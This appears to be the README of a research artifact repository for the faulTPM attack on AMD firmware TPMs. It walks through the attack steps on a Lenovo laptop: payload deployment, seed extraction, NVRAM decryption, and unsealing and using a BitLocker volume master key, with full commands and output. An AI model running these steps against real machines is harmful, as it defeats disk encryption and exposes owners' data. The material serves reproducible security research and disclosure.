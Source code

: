 # faulTPM - Artifacts

This repository aims to reproduce the results of our fTPM attack without any hardware access. Where physical steps and access to real hardware would be required, we provide sample data from a Lenovo Ideapad 5 Pro 16ACH6 laptop.

## Requirements

- Python 3.8
- Update submodules: `git submodule update --init`
- Install latest version of PSPTool: `cd tools/PSPTool; pip3 install .`
- Install amdnvtool: `cd tools/amd-nv-tool; pip3 install .`
- Install pycrypto: `pip3 install pycrypto`
- *If you want to compile our payload in 2. yourself*: `arm-none-eabi` toolchain in your `$PATH`

## fTPM Attack

The following steps (1-6) are aligned with the steps described in Section 4.5 (Results) of our paper.

1. **Backup BIOS flash image using an SPI flash programmer** --> [data/ideapad.rom](data/ideapad.rom)
2. **Connect the fault injection hardware and determine the attack parameters**
3. **Compile & deploy the payload extraction the key derivation secret** --> [data/ideapad_payload.rom](data/ideapad_payload.rom)

  ```bash
  cd extract_seed_payload
  make
  ```
***Note**: We have also provided the NV-secret (LSB) extraction payload. But since this payload does not apply to the (Zen 3) ideadpad laptop, have provided no extracted secrets or captures.***
***Note**: The resulting BIOS image will not be byte-identical with the provided image, since the fake AMD Root Key as well as all signatures differ on each PSPTool run.***

4. **Start the logic analyzer to capture the extracted key derivation seed via SPI** --> [data/ideapad.cap](data/ideapad.cap)

5. **Start glitch attack cycle on target machine until payload was executed successfully**
   1. Deploy the payload ([data/ideapad_payload.rom](data/ideapad_payload.rom)) using an SPI flash programmer
    2. Mount the voltage glitching attack until the system accepts our custom AMD Public Key
    3. Extract the decryption seed from the SPI trace --> [data/ideapad_seed.hex](data/ideapad_seed.hex)
   
6. **Parse & decrypt NVRAM using BIOS ROM backup and payload output with amdnvtool** --> [data/ideapad.nvram](data/ideapad.nvram)

  ```
  amdnvtool data/ideapad.rom -s $(cat data/ideapad_seed.hex)
  ```

7. This is described by the following section.

## TPM object decryption

To demonstrate our TPM object decryption capabilities, this repository includes a sample output of `dislocker-metadata` of a *TPM-only* BitLocker-protected Windows 11 volume: [data/dislocker-metadata.sample-out](data/dislocker-metadata.sample-out)

Together with the previously decrypted `nvram.bin`, we are able to decrypt the BitLocker Volume Master Key (VMK) like this: 

```bash
$ grep -B5 -A23 TPM_ENCODED data/ideapad.dislocker-metadata 
Mon May  2 22:23:36 2022 [INFO] ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Mon May  2 22:23:36 2022 [INFO] Total datum size: 0x012e (302) bytes
Mon May  2 22:23:36 2022 [INFO] Datum entry type: 0
Mon May  2 22:23:36 2022 [INFO]    `--> ENTRY TYPE UNKNOWN 1
Mon May  2 22:23:36 2022 [INFO] Datum value type: 6
Mon May  2 22:23:36 2022 [INFO]    `--> TPM_ENCODED -- Total size header: 12 -- Nested datum: no
Mon May  2 22:23:36 2022 [INFO] Status: 0x1
Mon May  2 22:23:36 2022 [INFO] Unknown: 0x815
Mon May  2 22:23:36 2022 [INFO] Payload:
Mon May  2 22:23:36 2022 [INFO] 0x00000000 00 aa 00 20 7d 92 e4 49-91 86 1d fd 69 f0 11 91 
Mon May  2 22:23:36 2022 [INFO] 0x00000010 5e b1 8e d6 62 8c 3c ce-0a d9 a1 0e 92 79 53 76 
Mon May  2 22:23:36 2022 [INFO] 0x00000020 4d 9a 16 a2 00 10 ef 59-1c e1 45 32 52 6d d3 24 
Mon May  2 22:23:36 2022 [INFO] 0x00000030 9c 40 0d 86 b1 c5 77 98-f5 39 a0 e7 22 8a c3 f1 
Mon May  2 22:23:36 2022 [INFO] 0x00000040 4f 0c 70 a7 ea d8 68 2f-cd 05 5b da 36 93 72 22 
Mon May  2 22:23:36 2022 [INFO] 0x00000050 15 26 21 f4 5b 4b 62 0d-be bd 19 25 3b f1 d3 35 
Mon May  2 22:23:36 2022 [INFO] 0x00000060 0c 19 6e 2b cd a8 be ae-0a 67 0d 5f 5c 00 a3 46 
Mon May  2 22:23:36 2022 [INFO] 0x00000070 2c 96 ad c4 4a 01 39 43-a9 63 17 99 23 d9 af d5 
Mon May  2 22:23:36 2022 [INFO] 0x00000080 0d ce c0 eb 8f 00 c5 8f-31 a5 ad 4f a1 e1 bd 6a 
Mon May  2 22:23:36 2022 [INFO] 0x00000090 b0 75 c8 8c d4 a2 c8 01-a4 f9 9a af 7c f0 77 85 
Mon May  2 22:23:36 2022 [INFO] 0x000000a0 6f bf 33 28 87 be f9 64-a0 73 ff 0c 00 4e 00 08 
Mon May  2 22:23:36 2022 [INFO] 0x000000b0 00 0b 00 00 04 12 00 20-a8 32 71 5f 9b 29 f4 0e 
Mon May  2 22:23:36 2022 [INFO] 0x000000c0 2b 8e 42 79 7f 81 3c 56-5f 1a 61 82 de 39 87 f4 
Mon May  2 22:23:36 2022 [INFO] 0x000000d0 2b b8 34 58 6f 5f 8f 4e-00 10 00 20 db ee 36 c0 
Mon May  2 22:23:36 2022 [INFO] 0x000000e0 14 cb 2c 1c a3 ba 8e 98-a1 62 88 81 73 7b 01 28 
Mon May  2 22:23:36 2022 [INFO] 0x000000f0 6e 0a c8 b4 ff dd 99 80-83 34 be 95 00 20 0f 2c 
Mon May  2 22:23:36 2022 [INFO] 0x00000100 65 73 ff 16 74 dd 0d 26-56 dc f3 5d 9e 27 67 83 
Mon May  2 22:23:36 2022 [INFO] 0x00000110 2c fd 8c 88 8c 1b 46 78-31 dc a8 50 d5 a4 03 15 
Mon May  2 22:23:36 2022 [INFO] 0x00000120 08 00 
Mon May  2 22:23:36 2022 [INFO] ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ grep -B5 -A23 TPM_ENCODED data/ideapad.dislocker-metadata \
| grep 0x00000 | grep -oE "([ -][0-9a-f]{2})+ $" \
| sed "s/[ -]//g" | xxd -r -p > ideapad.tpm
$ python tools/amd_ftpm2_unseal.py data/ideapad.nvram ideapad.tpm 
protector_seed = b4c52c245e00175ba166e86a5fe6043defc527e95633c00c0d59f45af5fbf110
hmac_key = b14c825a7e7b2582843fce420bef7227636c25440efd46a0d9457b8c669a95a6
aes_key = ef96c28bd33bffd4c092a10cad00a35a
decrypted sensitive_data = 007400080020000000000000000000000000000000000000000000000000000000000000000000207dd75598bd8933e2a030f07e5a91bf92f209c6596d583ed645fa31eea2375c91002c2c000500010000000320000063e2462ee119b6634cea51428ccdb1d0a7147116916b8ebb77fca8a369c1365e
decrypted vmk = 63e2462ee119b6634cea51428ccdb1d0a7147116916b8ebb77fca8a369c1365e
```

This VMK can now be used with `dislocker` to mount the BitLocker-protected Windows 11, e.g., from a Live Linux booted on the same system.

```bash
# echo 63e2462ee119b6634cea51428ccdb1d0a7147116916b8ebb77fca8a369c1365e | xxd -r -p >ideapad.vmk
# dislocker-fuse -K ideapad.vmk -V /dev/nvme0n1p3 /mnt
# ls /mnt
dislocker-file
# fdisk -l /mnt/dislocker-file 
Disk /mnt/dislocker-file: 99.29 GiB, 106617110528 bytes, 208236544 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x73736572

Device               Boot      Start        End    Sectors   Size Id Type
/mnt/dislocker-file1      1920221984 3736432267 1816210284   866G 72 unknown
/mnt/dislocker-file2      1936028192 3889681299 1953653108 931.6G 6c unknown
/mnt/dislocker-file3               0          0          0     0B  0 Empty
/mnt/dislocker-file4        27722122   27722568        447 223.5K  0 Empty

Partition table entries are not in disk order.
# mount /mnt/dislocker-file /mnt2
# ls /mnt2
'$Recycle.Bin'             pagefile.sys           swapfile.sys
'$WinREAgent'              PerfLogs              'System Volume Information'
'Documents and Settings'   ProgramData            Users
 DumpStack.log            'Program Files'         Windows
 DumpStack.log.tmp        'Program Files (x86)'
 hiberfil.sys              Recovery
```

